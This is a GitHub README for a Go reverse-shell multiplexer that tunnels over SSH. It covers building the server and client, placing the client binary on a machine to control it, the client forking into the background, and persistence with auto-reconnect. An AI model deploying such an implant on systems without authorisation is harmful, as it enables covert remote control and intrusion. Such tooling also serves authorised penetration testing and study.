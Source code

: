# Reverse SSH
By far one of the stupidest things I've been thinking of for a while. Have an ssh client connect to a server, and then provide the server the ability to control the client


Essentially works like any reverse shell muliplexer thing. Only fun thing here is that everything uses SSH.   

You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```
## How to use

Depending on the platform, you're building the server and client for. You may need to change the GOOS and GOARCH enviroment variables. E.g building for linux:
```
GOOS=linux GOARCH=amd64 make
```

The server will automatically generate a private key on first use. Or you can specify one with `--key`. And you will need to create an `authorized_keys` file, containing *Your* public key. 
This will allow the server to authenticate you, to allow you to control whatever reverse shell connections it catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

This will cause the client to fork into the background. If you want to montior the output for debugging purposes specify `--foreground`.  
The client will attempt to detect shells such as bash, ash, sh and execute one of those if possible. If it cant find one. Then you will be asked to enter in a path.

Then connect to your server:

```
ssh yourserver.com:3232
```

You will be presented by a list of controllable clients, e.g:
```
Connected controllable clients:                                                                                            e43bdff83d71a8a70e2c89fc27334e18722acaa1b600feb01c836351967bc258@127.0.0.1:55526, client version: SSH-2.0-Go
>
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect 4<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 


## Limitations

Currently doesnt work on windows due to PTY issues. If someone wants, I can always add in a simple shell that just executes & returns stdin/stdout. But not currently needed for my use cases.

## Todo

- ~~Make the selection UI a bit better~~
- ~~Handle IO errors better in all parties~~
- ~~Remove remote connection host from list when a disconnection is registered~~
- ~~Make the client cleanly fork itself from whatever parent it started from, giving it persistence (might be hard in go)~~
- ~~direct-tcp port forwarding to select hosts~~
- ~~Client reconnect on loss of connection~~
- ~~Add authentication bits and bobs~~
- Ensure threadsafety of key structures
- ~~Fix the passing of enviroment variables such as TERM~~
